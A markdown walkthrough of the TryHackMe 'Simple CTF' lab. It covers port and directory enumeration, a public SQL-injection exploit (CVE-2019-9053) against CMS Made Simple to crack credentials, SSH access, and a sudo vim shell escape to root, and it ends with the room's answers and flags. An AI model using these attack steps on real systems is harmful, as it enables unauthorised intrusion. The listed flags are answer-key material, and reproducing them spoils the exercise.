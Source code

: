 ## Simple CTF - TryHackMe Writeup

[Room Link](https://tryhackme.com/room/easyctf)

**Deploy the machine and attempt the questions!**

**HINT 1**: `An issue was discovered in CMS Made Simple 2.2.8. It is possible with the News module, through a crafted URL, to achieve unauthenticated blind time-based SQL injection via the m1_idlist parameter.`

**HINT 2**: `You can use /usr/share/seclists/Passwords/Common-Credentials/best110.txt to crack the pass`

**IP: 10.10.105.220**

---

## 📌 General Information

**Room Difficulty**: Easy <br>

**Room Type**: Linux Privilege Escalation, Password Cracking <br>

**Tools Used**: Nmap, Gobuster, John The Ripper

**Author**: <br>

[<img align='center' src="https://github.com/mauzware/mauzware/blob/main/LOGO%20NEW.png"/>](https://github.com/mauzware)

[TryHackMe Profile](https://tryhackme.com/p/mauzinho) <br>
[GitHub Profile](https://github.com/mauzware)

---

## 🔍 Enumeration

- Starting with Nmap and Gobuster.
  ```
  nmap -A -p- 10.10.105.220
  
  open ports: 21, 80, 2222
  21 -> vsftpd 3.0.3
  80 -> Apache httpd 2.4.18 ((Ubuntu))
  2222 -> OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)

  gobuster dir -u http://10.10.105.220 -w=/usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 64 --no-error -z -x php,asp,html,txt,zip
  /robots.txt 
  ```
  
- When I visited `robots.txt` I found `mike` which could be usefull credential. Now moving to exploitation

---

## ⚙️ Exploitation

- So for exploits, I found it with `searchsploit` but you can also download it from Exploits DB with this [link](https://www.exploit-db.com/exploits/46635)

  ```
  searchsploit cms made simple
  searchsploit -m 46635
  ```
  
- I moved to exploit to desired directory and changed it's name to `cmsexploit.py`, now let's run it. Hint told me to use `/usr/share/seclists/Passwords/Common-Credentials/best110.txt` as wordlist.

  ```
  python cmsexploit.py -u http://10.10.105.220/simple/ --crack -w /usr/share/seclists/Passwords/Common-Credentials/best110.txt
  ```
  
- Nice! It found credentials `mitch` and `0c01f4468bd75d7a84c7eb73846e8d96`. Crack the hash and use those credential to connect with SSH. Password is `secret`.

  ```
  john --wordlist=/usr/share/seclists/Passwords/Common-Credentials/best110.txt hash.txt
  ```

- Connect with SSH on port 2222: `ssh mithc@10.10.105.220 -p 2222` ; password is `secret`.

---

## 🧍 User Privilege Escalation

- Finding user flag is simple. `G00d j0b, keep up!`

---

## 👑 Root Privilege Escalation

- For root flags, I always look for writable files, SUID and SUDO privileges first. Writable files and SUID weren't helpfull but SUDO was!

  ```
  sudo -l 
  /usr/bin/vim
  ```
  
- So, for getting root with `vim` there's few different options, all 3 of these will work. After getting root, just read the flag.

  ```
  sudo vim -c ':!/bin/sh'
  sudo vim -c '!sh'
  sudo /usr/bin/vim
  
  cat /root/root.txt
  W3ll d0n3. You made it!
  ```

---

## 🏁 Flags

- **How many services are running under port 1000?**: `2`
- **What is running on the higher port?**: `ssh`
- **What's the CVE you're using against the application?**: `CVE-2019-9053`
- **To what kind of vulnerability is the application vulnerable?**: `sqli`
- **What's the password?**: `secret`
- **Where can you login with the details obtained?**: `ssh`
- **User Flag**: `G00d j0b, keep up!`
- **Is there any other user in the home directory? What's its name?**: `sunbath`
- **What can you leverage to spawn a privileged shell?**: `vim`
- **Root Flag**: `W3ll d0n3. You made it!`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Nothing special, just sharpening my skills tho.`

- What did I learn?
  `New CVE and new exploit.`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
